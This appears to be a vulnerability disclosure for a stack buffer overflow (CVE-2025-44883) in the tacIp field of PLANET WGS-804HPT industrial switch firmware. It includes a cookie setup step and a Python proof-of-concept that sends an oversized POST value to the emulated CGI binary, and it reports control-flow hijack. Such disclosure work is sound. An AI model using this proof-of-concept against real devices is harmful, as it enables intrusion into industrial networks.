

**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44883


# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.


Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2


# web_tacplus_serverEdit_post_tacIp

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_tacplus_serverEdit_post contains a stack overflow vulnerability.

The stack overflow can be triggered by tacIp value, which leads to a memcpy stack overflow.


In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```





The content of the **poc**.py file is as follows:

```json
import os


a =8196
var_name = "tacIp"
b = 'a' * 0x600
c = "tacIdx=111111"

poc_content = f"&cmd={a}&{var_name}={b}&{c}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)


```

# Attack result


通过上述截图可以看到我们已经溢出到了0x1e8，并且劫持了程序控制流，如果需要的话可以溢出更多
